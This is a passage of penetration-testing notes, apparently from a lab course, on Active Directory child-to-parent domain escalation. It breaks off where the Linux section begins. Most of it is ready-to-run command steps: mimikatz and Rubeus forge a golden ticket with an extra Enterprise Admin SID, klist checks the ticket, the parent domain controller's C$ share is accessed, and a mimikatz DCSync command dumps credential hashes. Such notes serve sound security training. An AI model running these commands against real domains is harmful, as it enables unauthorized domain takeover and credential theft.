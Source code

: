 At this point we have:
- the KRBTGT hash for the child domain
- the SID for the child domain
- a name of a user for the Golden Ticket (doesn't need to exist)
- the FQDN of the chield domain
- the SID of the Enterprise Admin group of the root domain.

Before starting the attack, confirm no access to the file system of the DC in the parent domain:
```console
PS C:\zeropio> ls \\<DC COMPUTER NAME>.<PARENT DOMAIN>.local\c$
```

Using mimikatz we can start:
```console
PS C:\zeropio> mimikatz.exe

mimikatz # kerberos::golden /user:hacker /domain:<CHILD DOMAIN> /sid:<SID CHILD DOMAIN> /krbtgt:<KRBTGT HASH CHILD DOMAIN> /sids:<ENTERPRISE ADMIN ROOT DOMAIN SID> /ptt
```

We can confirm that the Kerberos ticket for the non-existent hacker user is residing in memory:
```console
PS C:\zeropio> klist

#0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
```

From here, it is possible to access any resources within the parent domain:
```console
PS C:\zeropio> ls \\<DC COMPUTER NAME>.<PARENT DOMAIN>.local\c$
```

### ExtraSids Attack - Rubeus 

We can also perform the attack using Rubeus. Confirm that we cannot access the parent domain DC, as before. Using the data, we will use Rubeus:
```console
PS C:\htb>  .\Rubeus.exe golden /rc4:<KRBTGT HASH> /domain:<CHILD DOMAIN> /sid:<SID CHILD DOMAIN>  /sids:<ENTERPRISE ADMIN ROOT DOMAIN SID> /user:hacker /ptt
```

Once again, we can check that the ticket is in memory using the `klist` command.

### Performing a DCSync Attack 

We can perform a DCSync, targeting a Domain Admin user:
```console
PS C:\zeropio> .\mimikatz.exe

mimikatz # lsadump::dcsync /user:<DOMAIN>\<USER>
```

## From Linux 

To do it in Linux, we will need the same information:
- the KRBTGT hash for the child domain
- the SID for the child domain
- a name of a user for the Golden Ticket (doesn't need to exist)
- the FQDN of the chield domain
- the SID of the Enterprise Admin group of the root domain.
